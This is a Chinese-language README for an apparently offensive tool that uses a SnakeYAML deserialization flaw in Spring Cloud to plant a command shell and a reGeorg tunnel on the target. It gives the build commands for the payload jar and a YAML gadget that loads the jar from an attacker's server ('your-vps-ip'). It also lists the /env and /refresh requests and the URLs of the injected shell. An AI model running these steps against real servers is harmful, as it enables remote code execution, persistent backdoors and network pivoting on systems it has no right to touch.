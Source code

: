# README
Spring Cloud SnakeYAML 一键注册cmd shell和reGeorg

利用条件：
- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

仅在JDK1.8及Spring1.x测试通过,其他版本自测.

利用方法如下：
## 编译class文件然后打jar包
```bash
cd yaml-payload
javac src/artsploit/AwesomeScriptEngineFactory.java -cp ./lib
javac src/artsploit/Tunnel.java -cp ./lib
javac src/artsploit/GameInfo.java -cp ./lib
jar -cvf yaml-payload.jar -C src/ .
```

## 托管 yml 和 jar 文件
在自己控制的`vps`机器上开启一个简单`HTTP`服务器，端口尽量使用常见`HTTP`服务端口（80、443）

```bash
# 使用 python 快速开启 http server
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为`yml`的文件`yaml-payload.yml`,内容如下:
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/yaml-payload.jar"]
  ]]
]
```

在网站根目录下放置打包好的`yaml-payload.jar`

## 设置`spring.cloud.bootstrap.location`属性

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/yaml-payload.yml
```

## 刷新配置

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

## 访问注入的shell
1. reGeorg: http://localhost:9092/api/v1/tunnel
2. cmd shell: http://localhost:9092/api/v1/game POST:code=whoami

# 参考
1. https://github.com/LandGrey/SpringBootVulExploit
2. https://www.anquanke.com/post/id/198886
3. https://github.com/artsploit/yaml-payload